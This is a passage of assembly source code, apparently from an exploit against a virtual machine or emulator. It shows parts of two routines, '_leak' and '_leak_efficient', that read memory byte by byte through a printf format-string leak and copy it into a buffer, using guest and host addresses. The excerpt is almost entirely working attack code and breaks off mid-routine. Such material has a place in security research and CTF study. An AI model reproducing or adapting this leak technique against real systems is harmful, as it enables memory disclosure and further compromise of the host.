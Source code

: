 ```asm

    // store leaked bytes
    int32 r1 = r0 & 0xFF
    int8 [r18] = r1
    int32 r1 = r0 >> 8
    int32 r1 = r1 & 0xFF
    int8 [r18 + 1] = r1
    int32 r1 = r0 >> 16
    int8 [r18 + 2] = r1

    // calculate is_negative_mask
    int32 r19 = r0 & 0x80
    int32 r19 = r19 << 24
    int32 r19 = shift_right_s(r19, 31)

    // move src and dst pointers to next location
    int64 r16 = r16 - 3
    int64 r17 = r17 - 3
    int64 r18 = r18 - 3
} while (int64 r16 > 0)

return
_leak end


_leak_efficient function public
// r0: src offset (guest addr)
// r1: src addr (host addr)
// r2: dst
// r3: length

// assumes src[length] to be writeable
// as well as *(int32_t *)(src + length - 1) small positive value, i.e. above src no large values (=> efficiency decreases) and no negative values (=> algorithm breaks)

// internal register alloacation:
// r16: cur src pointer
// r17: cur dst address
// r18: cur dst pointer
// r19: remaining length
// r20: saved length

int64 r16 = r0 + r3
int64 r17 = r1 + r3
int64 r18 = r2 + r3
int64 r19 = r3
int64 r20 = r3

do {
    int64 r16 = r16 - 1
    int64 r17 = r17 - 1
    int64 r18 = r18 - 1

    // leak byte
    int64 r1 = r16
    int64 r0 = address([fmt_leak_str])
    call _printf
    
    // store lekaed byte
    int64 r0 = r0 & 0xFF
    int8 [r18] = r0

    // prepare write zero
```
